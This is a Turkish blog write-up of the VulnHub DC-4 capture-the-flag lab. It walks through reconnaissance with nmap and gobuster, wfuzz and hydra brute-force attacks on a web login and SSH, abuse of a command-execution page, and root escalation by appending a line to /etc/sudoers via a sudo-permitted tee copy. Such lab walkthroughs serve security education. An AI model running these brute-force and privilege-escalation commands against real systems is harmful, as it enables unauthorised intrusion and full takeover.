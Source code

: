 ```yaml
---
title: "VULNHUB DC-4 Write Up"
date: 2020-10-03T13:30:54+03:00
draft: false
toc: true
images:
tags: [Vulnhub,write-up,hydra,tee,ssh,brute force] 
categories: [write-up]
author : "Barcode"
Description : "Merhaba, Bu yazımda sizlere [VULNHUB](https://www.vulnhub.com/entry/dc-4,313/) 'da yer alan DC-4 adlı makinanın çözümünden bahsedeceğim. Keyifli okumalar..."
cover : images/vulnhub/dc4/cover.png
  
---
```


Merhaba, Bu yazımda sizlere [VULNHUB](https://www.vulnhub.com/entry/dc-4,313/) 'da yer alan DC-4 adlı makinanın çözümünden bahsedeceğim. Keyifli okumalar... :blush:

## 1. Keşif Aşaması

Makina kalıp dosyası siteden indirildikten sonra sanallaştırma yazılımları tarafından import edilir ve çalıştırılır. DHCP servisi tarafından atanan ip adresinin tespit edilmesi için netdiscover aracı ile ağda tarama yapılır.

```bash
netdiscover -i eth1
```

{{< image src="/images/vulnhub/dc4/netdiscover.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Nmap ile tüm portlar ve açık olan portlarda çalışan servisler tespit edilir.

```bash
sudo nmap -sV -sC -p- 192.168.56.113
```

{{< image src="/images/vulnhub/dc4/nmap.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

80 portunda çalışan web servisine tarayıcından istek atılır. 

{{< image src="/images/vulnhub/dc4/web.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Web dizin taraması yapılır.

```bash
gobuster dir -u http://192.168.56.113 -w /usr/share/wordlists/dirb/big.txt -x php,txt
```

```terminal
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.56.113
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,php
[+] Timeout:        10s
===============================================================
2020/10/02 08:33:12 Starting gobuster
===============================================================
/command.php (Status: 302)
/css (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
/login.php (Status: 302)
/logout.php (Status: 302)
===============================================================
2020/10/02 08:33:26 Finished
===============================================================
```
Index.php sayfasının login.php sayfasına yönlendirilmiştir. Sqlmap ile login sayfasında Sql Injection açığı için kontrol edildiğinde herhangi bir zafiyet görülmektedir. Login sayfasına admin kullanıcısı için brute-force saldırısı yapılır. Admin kullanıcısı için happy parola bilgisi elde edilir.

```bash
wfuzz -c -z file,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10k-most-common.txt --hs incorrect -d "username=admin&password=FUZZ" http://192.168.56.113/login.php
```

{{< image src="/images/vulnhub/dc4/force.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Admin kullanıcısı ile giriş yapılır. 

{{< image src="/images/vulnhub/dc4/admin.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Command sayfasına giriş yapılır. 

{{< image src="/images/vulnhub/dc4/commandpage.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Burpsuite aracı ile giden istekler incelenir. İstek gönderilirken boşluk karakteri + ile kodlanmaktadır. wget aracı ile shell alıncak dosya yüklenir. Ancak dizine yazma yetkisi sadece root kullanıcısına ait olduğundan başarısız olunur. 

{{< image src="/images/vulnhub/dc4/bp1.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

**ls** komutu ile dizinlerde gezinilerek keşif yapılır. jim kullanıcısının home dizini altında bir parola listesi bulunur.

{{< image src="/images/vulnhub/dc4/bp2.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

**cat** komutu ile liste görüntülenir ve localhost'a ssh servisine yapılacak olan brute force saldırısı için kayıt edilir.

{{< image src="/images/vulnhub/dc4/bp3.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Tespit edilen kullanıcılardan wordlist oluşturularak ve hydra aracı ile ssh servisine brute force saldırısı yapılır.

{{< image src="/images/vulnhub/dc4/bp4.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

```bash
hydra -L user.lst -P pass.lst ssh://192.168.56.113
```
{{< image src="/images/vulnhub/dc4/hydra.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

## 2. Erişim Sağlanması

Elde edilen bilgiler ile ssh bağlantısı yapılır. ```Sudo -l``` komutu girildiğinde parola istenmektedir. Parola rastgele girildiğinde hatalı deneme kullanıcıya mail olarak gönderilmektedir. */var/mail/* dizini altında yer alan jim dosyası okunarak kullanıcı mail kutusu kontrol edilir. Charles kullanıcısından gelen bir mailde parola bilgisi yer almaktadır. Charles kullanıcısına geçiş yapılır.

{{< image src="/images/vulnhub/dc4/charlesmail.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

## 3. Yetki Yükseltme

Charles kullanıcısına ait sudo yetkileri kontrol edilir. 


{{< image src="/images/vulnhub/dc4/sudo.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

**Teehee** adlı uygulamanın root yetkisi ile kullanılabileceği tespit edilir. Uygulamanın içeriğine bakılır. Uygulamanın tee uygulaması ile aynı olduğu görülür. 
```bash
strings /usr/bin/teehee
```
{{< image src="/images/vulnhub/dc4/tee.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

**tee** uygulaması kendisine gönderilen çıktıyı hem dosyaya hemde standart çıkış olan terminal ekranına basar. Sudoers dosyasına charles kullanıcısının tüm komutlarını çalıştırması için düzenlenme yapılır.

```bash
echo "charles ALL=(ALL) ALL" | sudo teehee -a /etc/sudoers
```
```Sudo su``` ile root kullanıcısına geçilerek */root* dizininde yer alan flag değeri okunur.

{{< image src="/images/vulnhub/dc4/rootflag.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}






